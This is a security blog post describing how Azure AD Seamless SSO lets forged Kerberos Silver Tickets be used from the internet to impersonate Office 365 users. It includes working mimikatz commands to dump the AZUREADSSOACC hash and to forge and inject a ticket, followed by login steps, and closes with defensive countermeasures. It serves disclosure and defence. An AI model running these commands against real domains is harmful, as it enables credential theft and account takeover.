 ```yaml
---
ref: impersonating
title: Impersonating Office 365 Users With Mimikatz
date: 2017-01-15T19:35:43+00:00
layout: post
lang: en
permalink: /en/impersonating-office-365-users-mimikatz/
tags:
    - 'Active Directory'
    - 'Microsoft Azure'
    - Mimikatz
    - 'Office 365'
    - Security
---
```


## Introduction

Last month, Microsoft has introduced a&nbsp;new feature of&nbsp;Azure AD Connect called [Single Sign On](https://docs.microsoft.com/en-us/azure/active-directory/connect/active-directory-aadconnect-sso). It allows companies to&nbsp;configure SSO between AD and&nbsp;AAD without the&nbsp;need to&nbsp;deploy [ADFS](https://technet.microsoft.com/en-us/library/hh831502(v=ws.11).aspx), which&nbsp;makes it an ideal solution for&nbsp;SMEs. Here is&nbsp;a high-level diagram of&nbsp;this functionality:

![](https://docs.microsoft.com/en-us/azure/active-directory/connect/media/active-directory-aadconnect-sso/sso2.png) As we can see from&nbsp;the&nbsp;diagram above, Azure AD exposes a [publicly available endpoint](https://autologon.microsoftazuread-sso.com) that&nbsp;accepts Kerberos tickets and&nbsp;translates them into SAML and&nbsp;JWT tokens, which&nbsp;are understood and&nbsp;trusted by&nbsp;other cloud services like Office 365, Azure or&nbsp;Salesforce. And&nbsp;wherever you have Kerberos-based authentication, it can be attacked using [Silver Tickets](https://adsecurity.org/?p=2011).

In&nbsp;usual circumstances this attack can only be performed from&nbsp;the&nbsp;intranet. But&nbsp;what really caught my attention is&nbsp;the fact that&nbsp;with this new SSO feature, **Silver Tickets could be used from&nbsp;the&nbsp;entire internet**. Let’s give it a&nbsp;try then!

## The&nbsp;Nasty Stuff

To&nbsp;test this technique, we need to&nbsp;retrieve some information from&nbsp;Active Directory first:

1. NTLM password hash of&nbsp;the [AZUREADSSOACC](https://docs.microsoft.com/en-us/azure/active-directory/connect/active-directory-aadconnect-sso#how-single-sign-on-works) account, e.g. *f9969e088b2c13d93833d0ce436c76dd*. This value can be retrieved from AD using [mimikatz](https://github.com/gentilkiwi/mimikatz):
```bat
mimikatz.exe "lsadump::dcsync /user:AZUREADSSOACC$" exit
```
    
My own [DSInternals PowerShell Module](https://github.com/MichaelGrafnetter/DSInternals) could do&nbsp;the same job:
    
```powershell
Get-ADReplAccount -SamAccountName 'AZUREADSSOACC$' -Domain contoso `
-Server lon-dc1.contoso.local
```
    
Both of these commands need *Domain Admins* permissions.

2. Name of the AD domain, e.g. *contoso.local*.
3. AAD logon name of the user we want to impersonate, e.g. elrond@contoso.com. This is typically either his *userPrincipalName* or *mail* attribute from the on-prem AD.
4. SID of the user we want to impersonate, e.g. *S-1-5-21-2121516926-2695913149-3163778339-1234*.

Having this information we can now create and use the Silver Ticket on any Windows computer connected to the internet. It does not even matter whether it is joined to a domain or a workgroup:

1. Create the Silver Ticket and inject it into Kerberos cache:
```bat
mimikatz.exe "kerberos::golden /user:elrond /sid:S-1-5-21-2121516926-2695913149-3163778339 /id:1234 /domain:contoso.local /rc4:f9969e088b2c13d93833d0ce436c76dd /target:aadg.windows.net.nsatc.net /service:HTTP /ptt" exit
```
2. Launch *Mozilla Firefox*.
3. Go to <about:config> and set the [network.negotiate-auth.trusted-uris](https://developer.mozilla.org/en-US/docs/Mozilla/Integrated_authentication) preference to [value](https://docs.microsoft.com/en-us/azure/active-directory/connect/active-directory-aadconnect-sso#ensuring-clients-sign-in-automatically) “https://aadg.windows.net.nsatc.net,https://autologon.microsoftazuread-sso.com”.
4. Navigate to any web application that is integrated with our AAD domain. We will use [Office 365](https://portal.office.com), which is the most commonly used one.
5. Once at the logon screen, fill in the user name, while leaving the password field empty. Then press TAB or ENTER.  
    ![](../../assets/images/aad_sso1.png)
6. That’s it, we’re in!![](../../assets/images/aad_sso2.png)
7. To log in as another user, run the command below and repeat steps 1-6.
```bat
klist purge
```

It is also worth noting that the password of the *AZUREADSSOACC* account never changes, so the stolen hash/key will work forever. It could therefore be misused by highly privileged employees to retain access to the IT environment after leaving the company. Dealing with such situations is a much broader problem, which is aptly depicted by the following old Narnian saying:

![Once a Domain Admin, always a Domain Admin](../../assets/images/narnia.png)

## Countermeasures

First of&nbsp;all, I&nbsp;have to&nbsp;point out that&nbsp;this technique would not be very practical in&nbsp;real-world situations due to&nbsp;these reasons:

- The SSO feature is in Preview and has to be explicitly enabled by an AD admin. Just a handful of companies probably use it at the time of writing this article and enterprises will quite surely stick to their proven ADFS deployments even after this feature reaches GA.
- The hash/key of the *AZUREADSSOACC* account can only be retrieved by Domain Admins from DCs by default. But if an attacker had such highly privileged access to an Active Directory domain, he/she would be able to do some way nastier stuff than just replicating a single hash.
- The password of the *AZUREADSSOACC* account is randomly generated during the deployment of *Azure AD Connect*. It would therefore be impossible to guess this password.

As&nbsp;you can see, there is&nbsp;simply no need to&nbsp;panic. But&nbsp;just to&nbsp;be safe, I&nbsp;would recommend these generic security measures:

- Only delegate administrative access to trusted individuals and keep the number of members of the *Domain Admins* group (and other privileged groups) as low as possible.
- Protect backups of Domain Controllers, so no-one could [extract sensitive information](/en/dumping-ntds-dit-files-using-powershell/) from them.
- Enable and enforce [Azure MFA](https://docs.microsoft.com/en-us/azure/multi-factor-authentication/multi-factor-authentication) for users authenticating from external IP addresses. It is very straightforward and effective against many kinds of attacks.
- Consider implementing [Azure AD conditional access](https://docs.microsoft.com/cs-cz/azure/active-directory/active-directory-conditional-access).
- Deploy [Microsoft Defender for Identity](https://www.microsoft.com/en-us/cloud-platform/advanced-threat-analytics) to detect malicious replication and other threats to your AD infrastructure.  
- Force a password change on the *AZUREADSSOACC* account by <del>re-deploying Azure AD Connect SSO</del> [running the Update-AzureSSOForest cmdlet](https://docs.microsoft.com/en-us/azure/active-directory/connect/active-directory-aadconnect-sso-faq#how-can-i-roll-over-the-kerberos-decryption-key-of-the-azureadssoacc-computer-account) after a highly privileged employee leaves the company and/or on a regular basis. This should be done together with resetting the password of *krbtgt* and other sensitive accounts.

## Conclusion

Although&nbsp;the&nbsp;Silver Ticket attack has been here for&nbsp;some years, it is&nbsp;now probably the&nbsp;first time it can be used over the&nbsp;internet against a&nbsp;cloud service, which&nbsp;theoretically makes it even&nbsp;more potent. On the&nbsp;other hand, it would be quite hard to  perform this technique in&nbsp;a real-world environment due to&nbsp;impracticalities discussed in&nbsp;the&nbsp;previous section, so&nbsp;there is&nbsp;no need to&nbsp;worry. The&nbsp;new Seamless SSO feature of&nbsp;Azure AD Connect can therefore be considered safe and&nbsp;preferred solution for&nbsp;SSO to&nbsp;Office 365.
